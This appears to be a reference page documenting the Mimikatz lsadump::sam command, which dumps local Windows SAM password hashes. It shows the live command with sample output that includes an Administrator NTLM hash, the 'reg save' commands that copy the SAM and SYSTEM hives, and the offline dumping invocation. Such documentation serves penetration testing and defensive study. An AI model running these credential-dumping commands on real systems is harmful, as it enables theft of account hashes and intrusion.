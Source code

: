 # sam

It dumps the local Security Account Manager (SAM) NT hashes (cf. [SAM secrets dump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)). It can operate directly on the target system, or offline with registry hives backups (for `SAM` and `SYSTEM`). It has the following command line arguments:

* `/sam`: the offline backup of the SAM hive
* `/system`: the offline backup of the SYSTEM hive

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

### Dumping the target

```
mimikatz # lsadump::sam
Domain : DC
SysKey : 7852ea75b3b8c4093fbda3f618a045bb
Local SID : S-1-5-21-97532702-2134717100-614679475

SAMKey : 7a87c9ff42815d7d1cead9fe84db22ba

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 4d01f91984530f183381bdf5f0605f63

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```

### Offline dumping

At first a backup of`SYSTEM` and `SAM` hives must be obtained:

```powershell
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```

A Volume Shadow Copy / BootCD  can also be used to backup these files:

```
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
```

Then the saved backups of `SYSTEM` and `SAM` hives can also be used offline:

```
mimikatz # lsadump::sam /system:system.hive /sam:sam.hive
```

